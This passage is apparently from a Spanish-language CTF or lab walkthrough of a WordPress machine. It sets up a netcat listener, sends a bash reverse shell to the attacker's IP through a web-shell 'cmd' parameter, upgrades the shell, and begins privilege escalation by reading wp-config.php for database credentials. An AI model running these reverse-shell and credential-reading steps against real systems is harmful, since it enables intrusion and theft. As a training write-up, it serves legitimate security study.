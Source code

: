 Ahora vamos a enviarnos una reverse shell a nuestra maquina de atacante

Primero nos ponemos en escucha por un puerto 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
   
```

Ahora solo escribe la reverse shell y le das al `ENTER` para ganar acceso

```
?cmd=bash -c "bash -i >%26 /dev/tcp/tuip/443 0>%261"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.15] from (UNKNOWN) [192.168.100.35] 41170
bash: cannot set terminal process group (4116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:~/html/wordpress/wp-content/banners$ whoami
whoami
www-data
www-data@ubuntu:~/html/wordpress/wp-content/banners$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:~/html/wordpress/wp-content/banners$ 

```

Ahora ejecuta estos comandos para poder hacer `CTRL+C`

```bash
script /dev/null -c bash
CTRL+Z
stty raw echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de privilegios

Podemos ver la contraseña de la base de datos

```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config.php 
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

```